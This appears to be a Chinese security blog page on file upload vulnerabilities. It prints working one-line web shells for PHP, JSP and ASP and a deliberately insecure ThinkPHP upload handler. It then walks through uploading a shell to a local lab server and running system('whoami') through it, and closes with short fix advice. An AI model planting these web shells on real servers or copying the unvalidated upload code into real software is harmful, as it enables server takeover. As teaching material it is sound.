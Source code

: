 ```yaml
---
# 当前页面内容标题
title: 文件上传漏洞
# 当前页面图标
icon: "hot"
# 分类
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: false
# 是否将该文章添加至时间线中
timeline: false
index: false
date: 2022-02-09
dir:
    link: true
---
```


## 漏洞描述

文件上传，在web程序中是一个非常常见的功能，而文件上传漏洞则是一个非常严重的漏洞，造成这个漏洞的原因就是，目标主机对文件上传的类型，没有有效的校验，导致攻击者可以上传恶意文件，从而获得服务器的特权访问，并进一步对服务器进行攻击。

下面是常见的一句话木马：

::: tabs

@tab PHP

```php
<?php eval($_POST['shell']) ?>
```

@tab JSP

```java
  <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream inputStream = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
    String line;
    while ((line = bufferedReader.readLine()) != null){
      response.getWriter().println(line);
    }
  %>

```

@tab ASP

```php
<%eval request("chopper")%>
```

:::

## 漏洞原理

下面是一个通过PHP制作的一个文件上传漏洞

主页`index.html`：

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>首页</title>
</head>
<body>
<p>欢迎{$user}</p>
<!--一个简单的form表单-->
<form action="{:url('index/upload')}" enctype="multipart/form-data" method="post" >
    <input type="file" name="image" /> <br>
    <input type="submit" value="上传" />
</form>
</body>
</html>
```

上传文件代码：

```php
public function upload(): string
{
    if(Session('?user')){
        $file = request()->file('image');
        $savepath = \think\facade\Filesystem::disk('public')->putFile('topic', $file);
        return "上传文件到：" . $savepath;
    }
    return "<a href='//'>请先登录</a>";
}
```

从上面的代码中，我没有对上传文件进行任何校验，并且返回上传的路径，从而人为的造成一个文件上传漏洞

下面是漏洞利用

准备一句话木马（xxx.php）：

```php
<?php @eval($_GET['shell']);?>
```

![image-20230210211508569](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230210211508569.png)

木马上传成功后，服务器会返回上传路径

![image-20230210211537159](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230210213337685.png)

`thinkphp`返回的路径是`public/storage`目录的相对路径，又因为`public`目录下的文件是公开的，所以添加上在路径前缀添加上`storage`后就可以直接访问。

```
http://127.0.0.1/storage/topic/20230210/021f42ae42edae7a913d58e9f0da2107.php?shell=system(%27whoami%27);
```

![image-20230210213337685](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230210211537159.png)

## 修复建议

1. 严格检验文件的类型，设置白名单
2. 重新命名并修改后缀
